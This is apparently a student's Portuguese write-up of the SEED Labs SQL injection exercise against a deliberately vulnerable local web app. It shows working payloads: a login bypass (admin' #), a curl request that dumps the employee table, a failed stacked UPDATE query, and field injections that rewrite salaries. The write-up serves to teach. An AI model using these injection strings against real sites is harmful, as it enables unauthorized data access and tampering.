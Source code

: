 # Trabalho realizado na Semana #8  - Web_SQL_Injection

## Tarefa 1

- Depois de acrescentar a seguinte linha ao ficheiro **'etc/hosts'**

> 10.9.0.5        www.seed-server.com

- Corremos o comando **'docker-compose build'** e **'docker-compose up'**

- Depois com **'dockps'** obtemos os containers e **'com docksh'** acedemos ao de mysql

```java
[12/15/21]seed@VM:~/.../Labsetup$ dockps
e25f634ef3e0  mysql-10.9.0.6
61f3afae9920  www-10.9.0.5
[12/15/21]seed@VM:~/.../Labsetup$ docksh e2
root@e25f634ef3e0:/# 
```

- Para obter os dados da Alice

![Figure 1](tarefa1.png)  

## Tarefa 2.1

- Inserindo no username a string ** admin' # ** e na password algo simplesmente para nao ser um campo vazio obtemos as tabelas

![Figure 2.1](tarefa2_1.png) 

## Tarefa 2.2

```java
[12/15/21]seed@VM:~$ curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password=banna'
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

- Removemos alguns comentarios do output para simplificar a visualizaçao mas gravando-o num ficheiro **index.html** e abrindo no browser obtemos algo mais simpatico

![Figure 2.2](tarefa2_2.png) 

## Tarefa 2.3



> admin' ; UPDATE credential SET Name = 'Batata' WHERE Name = 'Alice'; #

- Tentamos efetuar um update no username da Alice, no entanto nao foi possivel porque resulta em 2 commandos SQL e a versao de PHP nao permite fazer multiplas Query's

> There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'UPDATE credential SET Name = 'Batata' WHERE Name = 'Alice'; #' and Password='9a9' at line 3]\n




## Tarefa 3.1

- Na pagina de editar perfil, podemos inserir a seguinte string em qualquer espaço exceto no de **password** pois este esta cifrado com Hash. 

> 77777', salary = 42000000 WHERE name = 'Alice' #

```sql

UPDATE credential SET
nickname = '',
email = '',
address = '',
Password = '',
PhoneNumber = '77777', salary = 42000000 WHERE name = 'Alice' #'

```

## Tarefa 3.2

- Como em 3.1, na pagina de editar o perfil da alice adicionamos a seguinte string em qualquer campo exceto o da password

> 77777', salary = 1 WHERE name = 'Boby' #


![Figure 3.2](tarefa3_2.png) 
